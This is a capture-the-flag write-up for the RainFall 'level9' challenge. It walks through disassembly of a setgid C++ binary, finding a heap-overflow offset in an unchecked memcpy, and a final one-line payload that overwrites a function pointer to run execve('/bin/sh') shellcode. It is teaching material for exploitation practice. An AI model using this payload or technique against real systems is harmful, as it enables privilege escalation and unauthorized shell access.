

# level9

## Hint

When we log into the machine as `level9`, we notice a binary:

```shell-session
level9@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 bonus0 users 6720 Mar  6  2016 level9
```

We notice that the `guid` bit is set, so the executable gets the rights of its group owners granted when it is executed, and conveniently enough the group in question is our target for the current level.

## gdb

### C++ mangled names

When we run `gdb` on the binary and use the `disas main` command, we see weird symbols yet unseen until now.

After some digging, we find that they are mangled-name C++ symbols. There is a tool we can use to demangle them: `c++filt`.

```shell-session
 λ rainfall42/level9/ c++filt _Znwj                               
operator new(unsigned int)

 λ rainfall42/level9/ c++filt _ZN1NC2Ei                           
N::N(int)

 λ rainfall42/level9/ c++filt _ZN1N13setAnnotationEPc             
N::setAnnotation(char*)
```

### available function

we can also get that information with following, and looking at the addresses:

```gdb
gdb-peda$ info functions
All defined functions:

Non-debugging symbols:
[...]
0x080484f0  _exit
0x080484f0  _exit@plt
0x08048500  _ZNSt8ios_base4InitD1Ev
0x08048500  _ZNSt8ios_base4InitD1Ev@plt
0x08048510  memcpy
0x08048510  memcpy@plt
0x08048520  strlen
0x08048520  strlen@plt
0x08048530  operator new(unsigned int)     <-- same addresses
0x08048530  _Znwj@plt                      <-- same addresses
[...]
0x080485f4  main
[...]
0x080486f6  N::N(int)
0x0804870e  N::setAnnotation(char*)
0x0804873a  N::operator+(N&)
0x0804874e  N::operator-(N&)
[...]
```

### main & method

```gdb
gdb-peda$ disas main
Dump of assembler code for function main:
   0x080485f4 <+0>:	push   ebp
   0x080485f5 <+1>:	mov    ebp,esp
   0x080485f7 <+3>:	push   ebx
   0x080485f8 <+4>:	and    esp,0xfffffff0
   0x080485fb <+7>:	sub    esp,0x20
   0x080485fe <+10>:	cmp    DWORD PTR [ebp+0x8],0x1
   0x08048602 <+14>:	jg     0x8048610 <main+28>
   0x08048604 <+16>:	mov    DWORD PTR [esp],0x1
   0x0804860b <+23>:	call   0x80484f0 <_exit@plt>
   0x08048610 <+28>:	mov    DWORD PTR [esp],0x6c
   0x08048617 <+35>:	call   0x8048530 <_Znwj@plt>               <-- builtin new operator
   0x0804861c <+40>:	mov    ebx,eax
   0x0804861e <+42>:	mov    DWORD PTR [esp+0x4],0x5
   0x08048626 <+50>:	mov    DWORD PTR [esp],ebx
   0x08048629 <+53>:	call   0x80486f6 <_ZN1NC2Ei>               <-- new object N(5)
   0x0804862e <+58>:	mov    DWORD PTR [esp+0x1c],ebx
   0x08048632 <+62>:	mov    DWORD PTR [esp],0x6c
   0x08048639 <+69>:	call   0x8048530 <_Znwj@plt>
   0x0804863e <+74>:	mov    ebx,eax
   0x08048640 <+76>:	mov    DWORD PTR [esp+0x4],0x6
   0x08048648 <+84>:	mov    DWORD PTR [esp],ebx
   0x0804864b <+87>:	call   0x80486f6 <_ZN1NC2Ei>               <-- new object N(6)
   0x08048650 <+92>:	mov    DWORD PTR [esp+0x18],ebx
   0x08048654 <+96>:	mov    eax,DWORD PTR [esp+0x1c]
   0x08048658 <+100>:	mov    DWORD PTR [esp+0x14],eax
   0x0804865c <+104>:	mov    eax,DWORD PTR [esp+0x18]
   0x08048660 <+108>:	mov    DWORD PTR [esp+0x10],eax
   0x08048664 <+112>:	mov    eax,DWORD PTR [ebp+0xc]
   0x08048667 <+115>:	add    eax,0x4
   0x0804866a <+118>:	mov    eax,DWORD PTR [eax]
   0x0804866c <+120>:	mov    DWORD PTR [esp+0x4],eax
   0x08048670 <+124>:	mov    eax,DWORD PTR [esp+0x14]
   0x08048674 <+128>:	mov    DWORD PTR [esp],eax
   0x08048677 <+131>:	call   0x804870e <_ZN1N13setAnnotationEPc> <-- method of N class
   0x0804867c <+136>:	mov    eax,DWORD PTR [esp+0x10]            <-- load address (access the object address)
   0x08048680 <+140>:	mov    eax,DWORD PTR [eax]                 <-- first dereference (access the object's method)
   0x08048682 <+142>:	mov    edx,DWORD PTR [eax]                 <-- second dereference (access the method's value)
   0x08048684 <+144>:	mov    eax,DWORD PTR [esp+0x14]
   0x08048688 <+148>:	mov    DWORD PTR [esp+0x4],eax
   0x0804868c <+152>:	mov    eax,DWORD PTR [esp+0x10]
   0x08048690 <+156>:	mov    DWORD PTR [esp],eax
   0x08048693 <+159>:	call   edx                                 <-- call to a pointed function in edx
   0x08048695 <+161>:	mov    ebx,DWORD PTR [ebp-0x4]
   0x08048698 <+164>:	leave
   0x08048699 <+165>:	ret
End of assembler dump.
```

By disassembling the method we see the call to the `memcpy` function which is well known for its tendency to overwrite overlapping memory locations, which is an exploitable feature of that function call:
> we could use it to overwrite memory addresses to execute arbitrary code. (like a shellcode calling `system("/bin/sh")`)

```gdb
gdb-peda$ disas _ZN1N13setAnnotationEPc
Dump of assembler code for function _ZN1N13setAnnotationEPc:
   0x0804870e <+0>:	push   ebp
   0x0804870f <+1>:	mov    ebp,esp
   0x08048711 <+3>:	sub    esp,0x18
   0x08048714 <+6>:	mov    eax,DWORD PTR [ebp+0xc]
   0x08048717 <+9>:	mov    DWORD PTR [esp],eax
   0x0804871a <+12>:	call   0x8048520 <strlen@plt>
   0x0804871f <+17>:	mov    edx,DWORD PTR [ebp+0x8]
   0x08048722 <+20>:	add    edx,0x4
   0x08048725 <+23>:	mov    DWORD PTR [esp+0x8],eax
   0x08048729 <+27>:	mov    eax,DWORD PTR [ebp+0xc]
   0x0804872c <+30>:	mov    DWORD PTR [esp+0x4],eax
   0x08048730 <+34>:	mov    DWORD PTR [esp],edx
   0x08048733 <+37>:	call   0x8048510 <memcpy@plt>  <-- vulnerable function call, returning address of `dest` argument into eax, valid after method call
   0x08048738 <+42>:	leave
   0x08048739 <+43>:	ret
End of assembler dump.
```

## recap

So we have gathered so far:
- binary is a C++ program (not very interesting)
- there is a call to `memcpy` inside a N class method, which address is returned by the call
  - we could manage to overflow the buffer given to `memcpy` with arbitrary addresses to execute malicious code. 
- there's a function pointer called from inside the code, stored in eax register.
  - we could write the address of that arbitrary code at this location so that the normal execution of the program would do all the heavy lifting.

In order to successfully call a `system("/bin/sh")` from that function pointer we need the following:
1. A valid shellcode capable of invoking a shell from within the binary
2. buffer offset + to take into account the padding for the buffer address
3. the address returned by the `memcpy` function inside the method call ( which is stored in eax )

## Shellcode

Finding the shellcode is rather easy, we just need to find one that fits with our current architecture.

## finding the buffer offset

Once again, we use our trusted [BO pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/?) and we get the following:

```gdb
[----------------------------------registers-----------------------------------]
EAX: 0x41366441 ('Ad6A')                                     <-- EAX overwritten
EBX: 0x804a078 ("Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag")
ECX: 0x67413567 ('g5Ag')
EDX: 0x804a0d4 --> 0x0
ESI: 0x0
EDI: 0x0
EBP: 0xbffffb88 --> 0x0
ESP: 0xbffffb60 --> 0x804a008 --> 0x8048848 --> 0x804873a (<_ZN1NplERS_>:	push   ebp)
EIP: 0x8048682 (<main+142>:	mov    edx,DWORD PTR [eax])
EFLAGS: 0x210287 (CARRY PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x8048677 <main+131>:	call   0x804870e <_ZN1N13setAnnotationEPc>
   0x804867c <main+136>:	mov    eax,DWORD PTR [esp+0x10]
   0x8048680 <main+140>:	mov    eax,DWORD PTR [eax]
=> 0x8048682 <main+142>:	mov    edx,DWORD PTR [eax]
   0x8048684 <main+144>:	mov    eax,DWORD PTR [esp+0x14]
   0x8048688 <main+148>:	mov    DWORD PTR [esp+0x4],eax
   0x804868c <main+152>:	mov    eax,DWORD PTR [esp+0x10]
   0x8048690 <main+156>:	mov    DWORD PTR [esp],eax
[------------------------------------stack-------------------------------------]
0000| 0xbffffb60 --> 0x804a008 --> 0x8048848 --> 0x804873a (<_ZN1NplERS_>:	push   ebp)
0004| 0xbffffb64 --> 0xbffffd5a ("Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag")
0008| 0xbffffb68 --> 0xbffffc30 --> 0xbffffe23 ("TERM=alacritty")
0012| 0xbffffb6c --> 0xb7d79e55 (<__cxa_atexit+53>:	add    esp,0x18)
0016| 0xbffffb70 --> 0x804a078 ("Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag")
0020| 0xbffffb74 --> 0x804a008 --> 0x8048848 --> 0x804873a (<_ZN1NplERS_>:	push   ebp)
0024| 0xbffffb78 --> 0x804a078 ("Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag")
0028| 0xbffffb7c --> 0x804a008 --> 0x8048848 --> 0x804873a (<_ZN1NplERS_>:	push   ebp)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x08048682 in main ()
```



So the offset of the buffer is of `104`.

From that we can deduce the length the payload must have:

`104` (buffer size) + `4` (buffer address) + `4` (overwritten address) = `112` of payload length

## address of eax 

1. run gdb on the binary
2. breakpoint after the call to the method
3. check address of `eax`

```gdb
gdb-peda$ break *main+136
Breakpoint 1 at 0x804867c
gdb-peda$ run lol
[----------------------------------registers-----------------------------------]
EAX: 0x804a00c --> 0x6c6f6c ('lol')                   <-- Address of eax is 0x804a00c
EBX: 0x804a078 --> 0x8048848 --> 0x804873a (<_ZN1NplERS_>:	push   ebp)
ECX: 0x6f6c ('lo')
EDX: 0x804a00f --> 0x0
ESI: 0x0
EDI: 0x0
EBP: 0xbffffc48 --> 0x0
ESP: 0xbffffc20 --> 0x804a008 --> 0x8048848 --> 0x804873a (<_ZN1NplERS_>:	push   ebp)
EIP: 0x804867c (<main+136>:	mov    eax,DWORD PTR [esp+0x10])
EFLAGS: 0x200287 (CARRY PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x8048670 <main+124>:	mov    eax,DWORD PTR [esp+0x14]
   0x8048674 <main+128>:	mov    DWORD PTR [esp],eax
   0x8048677 <main+131>:	call   0x804870e <_ZN1N13setAnnotationEPc>
=> 0x804867c <main+136>:	mov    eax,DWORD PTR [esp+0x10]
   0x8048680 <main+140>:	mov    eax,DWORD PTR [eax]
   0x8048682 <main+142>:	mov    edx,DWORD PTR [eax]
   0x8048684 <main+144>:	mov    eax,DWORD PTR [esp+0x14]
   0x8048688 <main+148>:	mov    DWORD PTR [esp+0x4],eax
[------------------------------------stack-------------------------------------]
0000| 0xbffffc20 --> 0x804a008 --> 0x8048848 --> 0x804873a (<_ZN1NplERS_>:	push   ebp)
0004| 0xbffffc24 --> 0xbffffe1f --> 0x6c6f6c ('lol')
0008| 0xbffffc28 --> 0xbffffcf0 --> 0xbffffe23 ("TERM=alacritty")
0012| 0xbffffc2c --> 0xb7d79e55 (<__cxa_atexit+53>:	add    esp,0x18)
0016| 0xbffffc30 --> 0x804a078 --> 0x8048848 --> 0x804873a (<_ZN1NplERS_>:	push   ebp)
0020| 0xbffffc34 --> 0x804a008 --> 0x8048848 --> 0x804873a (<_ZN1NplERS_>:	push   ebp)
0024| 0xbffffc38 --> 0x804a078 --> 0x8048848 --> 0x804873a (<_ZN1NplERS_>:	push   ebp)
0028| 0xbffffc3c --> 0x804a008 --> 0x8048848 --> 0x804873a (<_ZN1NplERS_>:	push   ebp)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x0804867c in main ()
```

## payload

Using [this](https://www.exploit-db.com/exploits/42428) shellcode:
```shell-session
./level9 $(python -c "print '\x10\xa0\x04\x08' + '\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80' + 'B' * 80 + '\x0c\xa0\x04\x08'")
                            |address-in-eax+4| + |------------------------------------------------------------------------------------------------| + |padding|+ |-address-in-eax-|
```
